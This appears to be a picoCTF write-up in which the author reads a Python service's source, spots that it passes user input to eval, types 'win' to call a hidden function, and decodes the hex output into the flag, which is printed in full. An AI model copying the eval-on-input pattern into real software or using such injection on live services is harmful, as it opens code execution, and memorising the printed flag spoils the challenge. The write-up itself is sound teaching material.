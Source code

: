 # URL
https://play.picoctf.org/playlists/2?m=14

# Details
This service can provide you with a random number, but can it do anything else?
Connect to the program with netcat:
$ nc saturn.picoctf.net 64000
The program's source code can be downloaded here.

# Work

* The code has a win() function that prints the flag so I know I have to reach here somehow
* Later down the code I see this:
``
 while(True):
  try:
    print('Try entering "getRandomNumber" without the double quotes...')
    user_input = input('==> ')
    eval(user_input + '()')
``

* the eval function (a huge security risk btw) takes our input + the parenthesis
* knowing this I just typed win and look at what I get

  ``┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 63251
Try entering "getRandomNumber" without the double quotes...
==> win
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x62 0x35 0x32 0x33 0x62 0x32 0x61 0x31 0x7d 
Try entering "getRandomNumber" without the double quotes..
``
* I put the hexdecimal into an hex -> ascii converter and got the flag!

